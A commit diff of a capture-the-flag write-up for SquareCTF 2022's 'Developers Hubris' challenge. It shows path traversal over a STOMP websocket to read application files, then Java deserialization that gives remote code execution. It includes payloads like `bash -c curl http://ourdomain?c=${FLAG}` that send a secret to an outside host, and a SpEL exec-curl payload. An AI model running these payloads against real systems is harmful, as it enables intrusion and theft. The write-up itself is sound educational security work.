

Before and after one commit to ubcctf/ubcctf.github.io, a Jekyll site: the page built from _posts/2022-11-23-developers-hubris.md, in a window 1280 px wide and 1400 px high, scrolled down 2018 px. Shown: the whole window, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
touchups

````diff
--- a/_posts/2022-11-23-developers-hubris.md
+++ b/_posts/2022-11-23-developers-hubris.md
@@ -15,11 +15,11 @@
 
 We land on some kind of bug report page which doesn't seem all that notable by itself, aside from using `..` in the subject line, which makes the server throw an error.
 
-![1669196910784](../assets/images/squarectf2022/report-form.png)
+![1669196910784](/assets/images/squarectf2022/report-form.png)
 
 Inspecting the page reveals the existence of a `help.html` link. Here, `Launch Help` establishes a websocket connection, using some weird text format (STOMP, from `help.js`) to communicate with the server.
 
-![1669194430021](../assets/images/squarectf2022/network-tab.png)
+![1669194430021](/assets/images/squarectf2022/network-tab.png)
 
 ```js
 function connect() {
@@ -49,7 +49,7 @@
 {"module":"Time","subId":"66279241727517418430986194010014"}
 ```
 
-If you try to switch out `module` with someting like `test`, you get an `java.nio.file.NoSuchFileException: /DevelopersHubris/Help/test` error. At this point we try checking for the existence of directories or reading other files that might exist on their machine (searching for `gs-guide-messaging` turns up a starter Java repo, which contains a couple of files that you might try to read, like `../pom.xml`, ` ../src/main/java/com/example/developershubris/`). Going out of  `/DevelopersHubris ` is a no-go, because they block it (`com.example.developershubris.PathSecurityUtil$PathSecurityException: Cannot access files outside of the application directory `). Here's a bit from `pom.xml` (after running a bit of regex cleanup on it):
+If you try to switch out `module` with someting like `test`, you get an `java.nio.file.NoSuchFileException: /DevelopersHubris/Help/test` error. At this point we try checking for the existence of directories or reading other files that might exist on their machine (searching for `gs-guide-messaging` turns up a starter Java repo, which contains a couple of files that you might try to read, like `../pom.xml`, `../src/main/java/com/example/developershubris/`). Going out of `/DevelopersHubris` is a no-go, because they block it (`com.example.developershubris.PathSecurityUtil$PathSecurityException: Cannot access files outside of the application directory `). Here's a bit from `pom.xml` (after running a bit of regex cleanup on it):
 
 ```xml
 	</parent>
@@ -63,18 +63,20 @@
 	</properties>
 ```
 
-At this point you're stuck until you come up with *"Hey I've ran a few Java applications. What if they have a `target` folder with a jar in it too?"*. With a bit of guessing, you get `../target/DevelopersHubris-0.0.1-SNAPSHOT.jar`, and the server returns a load of data. Here, I fumbled a bit with trying to get a large file sent over a websocket connection, and I never really managed to get the resulting data into a valid JAR file that I could open. Nevertheless, `strings target.jar | awk '{ if (length($0) > 13) print }' > filenames.txt` gets me a bunch of strings that include the names of files that exist in the application directory:
+At this point you're stuck until you come up with *"Hey I've ran a few Java applications before. What if they have a `target` folder with a jar in it too?"*. With a bit of guessing, you get `../target/DevelopersHubris-0.0.1-SNAPSHOT.jar`, and the server returns a load of data. Here, I fumbled a bit with trying to get a large file sent over a websocket connection, and I never really managed to get the resulting data into a valid JAR file that I could open. Nevertheless, `strings target.jar | awk '{ if (length($0) > 13) print }' > filenames.txt` gets me a bunch of strings that include the names of files that exist in the application directory:
 
-![1669197245735](../assets/images/squarectf2022/extracted-strings.png)
+![1669197245735](/assets/images/squarectf2022/extracted-strings.png)
 
 Overview of important files extracted:
 
 - Command.java - contains a serializable(!) object that grants free RCE upon calling `readObject()` on it. Notably, It splits the `command` string into three, and calls `Runtime.getRuntime().exec(commandArray)` on it, meaning that you'll want to _not_ enclose any argument within a string. We used `bash -c curl http://ourdomain?c=${FLAG}`.
 - CommandController.java - contains logic for exposing a  `/command` route which gives RCE, but the `@Controller` metadata annotation got removed, so it's useless to us.
-- DiagnosticsController.java - exposes a `/diagnostics` GET route that reads a  `./Errors/.<errorId>` file `base64` decodes it, and calls `readObject()` on it.
+- DiagnosticsController.java - exposes a `/diagnostics` GET route that reads a  `./Errors/.<errorId>` file, `base64` decodes it, and calls `readObject()` on it.
 - ReportsController.java - writes a file to `Reports/<subject>/<name>`, and hints at the existence of the flag in the `FLAG` env var.
 
-So, we create our own Java project, pop `Command.java` in there with , instantiate it with our payload and write it out as a `base64` file, that we write to `Reports/<subject>/<name>`, and finally we go to `/diagnostics?errorId=./Reports/<subject>/<name>` to execute our payload and get their flag.
+Quick note: You can essentially deserialize any Java object that implements the `Serializable` interface and which exists on the server side, if you're allowed to pass data into an `ObjectInputStream` and on which `readObject` gets called. They're required to implement `readObject`, and if the implementation of `readObject` is unsafe, that can lead to Remote Code Execution (RCE). In this chall `readObject` implements a direct call to `Runtime.getRuntime().exec` for simplicity, but usually it's done through a series of gadgets.
+
+So, we create our own Java project, pop `Command.java` in there, instantiate it with our payload and write it out as a `base64` file, that we write to `Reports/<subject>/<name>`, and finally we go to `/diagnostics?errorId=./Reports/<subject>/<name>` to execute our payload and get their flag.
 
 `flag{8db7145f70954219ba589a54586710da}`
 
@@ -97,7 +99,7 @@
 
 async def main():
     url = "ws://chals.2022.squarectf.com:4104"
-    payload = "T(java.lang.Runtime).getRuntime().exec('curl http://webhook.site/7292cf0c-3a49-416c-a9d0-ce5c52f42934')"
+    payload = "T(java.lang.Runtime).getRuntime().exec('curl http://webhook.site/my_unique_uuid')"
     selector_header = f"selector:{payload}" # wild guess lmao, didn't get me anywhere
     path = "../src/main/java/com/example/developershubris/WebSocketConfig.java"
     path = "../src/main/java/com/example/developershubris/DevelopersHubrisApplication.java"
````
Also changed, not shown: other parts of _posts/2022-11-23-developers-hubris.md (+1 -1 lines).
